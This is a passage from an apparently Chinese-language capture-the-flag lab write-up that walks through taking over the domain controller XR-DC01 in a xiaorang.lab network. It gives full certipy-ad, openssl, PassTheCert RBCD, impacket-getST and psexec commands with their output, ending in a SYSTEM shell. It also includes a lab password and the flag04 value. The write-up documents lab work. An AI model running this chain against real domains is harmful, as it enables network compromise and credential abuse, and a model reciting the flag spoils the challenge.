[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
```

然后尝试申请 TGT 票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: xr-dc01$@xiaorang.lab
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

这里的报错，是因为缺少证书，参考 [Pass The Certificate when PKINIT Padata Type is NOSUPP | WHOAMI](https://whoamianony.top/posts/pass-the-certificate-when-pkinit-is-nosupp/)

使用 [AlmondOffSec/PassTheCert: Proof-of-Concept tool to authenticate to an LDAP/S server with a certificate through Schannel](https://github.com/AlmondOffSec/PassTheCert)

首先，先转换证书（证书密码留空即可）

```shell
┌──(randark ㉿ kali)-[~]
└─$ openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
Enter Import Password:

┌──(randark ㉿ kali)-[~]
└─$ openssl rsa -in test.pem -out test.key
writing RSA key

┌──(randark ㉿ kali)-[~]
└─$ openssl x509 -in test.pem -out test.crt
```

然后执行攻击

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q python3 ./tools/PassTheCert/Python/passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] You are logged in as: XIAORANG\XR-DC01$
```

可以成功登录，尝试 RBCD

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q python3 ./tools/PassTheCert/Python/passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'randark2'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] randark2$ can now impersonate users on XR-DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     randark2$    (S-1-5-21-3745972894-1678056601-2622918667-1148)
```

申请 TGT 票据

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-getST xiaorang.lab/'randark2$':'admin123###2' -dc-ip 172.22.15.13  -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
```

得到票据之后，就可以直接拿到 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13 -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on XR-DC01.xiaorang.lab.....
[*] Found writable share ADMIN$
[*] Uploading file nZUluhoI.exe
[*] Opening SVCManager on XR-DC01.xiaorang.lab.....
[*] Creating service Xvjs on XR-DC01.xiaorang.lab.....
[*] Starting service Xvjs.....
[!] Press help for extra shell commands
Microsoft Windows [版本 10.0.14393]
(c) 2016 Microsoft Corporation。保留所有权利。

C:\windows\system32> whoami
nt authority\system
```

## flag - 04

```plaintext
 :::===== :::      :::====  :::=====  :::====  :::  ===
 :::      :::      :::  === :::       :::  === :::  ===
 ======   ===      ======== === ===== ===  === ========
 ===      ===      ===  === ===   === ===  ===      ===
 ===      ======== ===  ===  =======   ======       ===


flag04: flag{bd7afa93-36d1-47d7-b431-a596ec3735e6}
```
